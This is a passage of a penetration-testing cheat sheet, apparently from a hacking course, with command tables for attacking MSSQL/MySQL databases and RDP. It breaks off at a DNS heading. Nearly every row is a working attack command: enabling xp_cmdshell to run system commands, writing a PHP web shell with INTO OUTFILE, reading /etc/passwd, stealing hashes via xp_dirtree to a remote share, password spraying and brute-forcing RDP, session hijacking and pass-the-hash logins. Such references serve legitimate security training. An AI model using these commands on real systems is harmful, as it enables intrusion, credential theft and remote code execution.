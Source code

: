 |`sqlcmd> SELECT name FROM master.dbo.sysdatabases`|Show all available databases in MSSQL.|
|`sqlcmd> USE htbusers`|Select a specific database in MSSQL.|
|`sqlcmd> SELECT * FROM htbusers.INFORMATION_SCHEMA.TABLES`|Show all available tables in the selected database in MSSQL.|
|`sqlcmd> SELECT * FROM users`|Select all available entries from the "users" table in MSSQL.|
|`sqlcmd> EXECUTE sp_configure 'show advanced options', 1`|To allow advanced options to be changed.|
|`sqlcmd> EXECUTE sp_configure 'xp_cmdshell', 1`|To enable the xp_cmdshell.|
|`sqlcmd> RECONFIGURE`|To be used after each sp_configure command to apply the changes.|
|`sqlcmd> xp_cmdshell 'whoami'`|Execute a system command from MSSQL server.|
|`mysql> SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php'`|Create a file using MySQL.|
|`mysql> show variables like "secure_file_priv";`|Check if the the secure file privileges are empty to read locally stored files on the system.|
|`sqlcmd> SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents`|Read local files in MSSQL.|
|`mysql> select LOAD_FILE("/etc/passwd");`|Read local files in MySQL.|
|`sqlcmd> EXEC master..xp_dirtree '\\10.10.110.17\share\'`|Hash stealing using the `xp_dirtree` command in MSSQL.|
|`sqlcmd> EXEC master..xp_subdirs '\\10.10.110.17\share\'`|Hash stealing using the `xp_subdirs` command in MSSQL.|
|`sqlcmd> SELECT srvname, isremote FROM sysservers`|Identify linked servers in MSSQL.|
|`sqlcmd> EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [10.0.0.12\SQLEXPRESS]`|Identify the user and its privileges used for the remote connection in MSSQL.|

---

## Attacking RDP

|**Command**|**Description**|
|---|---|
|`crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'`|Password spraying against the RDP service.|
|`hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp`|Brute-forcing the RDP service.|
|`rdesktop -u admin -p password123 192.168.2.143`|Connect to the RDP service using `rdesktop` in Linux.|
|`tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}`|Impersonate a user without its password.|
|`net start sessionhijack`|Execute the RDP session hijack.|
|`reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f`|Enable "Restricted Admin Mode" on the target Windows host.|
|`xfreerdp /v:192.168.2.141 /u:admin /pth:A9FDFA038C4B75EBC76DC855DD74F0DA`|Use the Pass-The-Hash technique to login on the target host without a password.|

---

## Attacking DNS
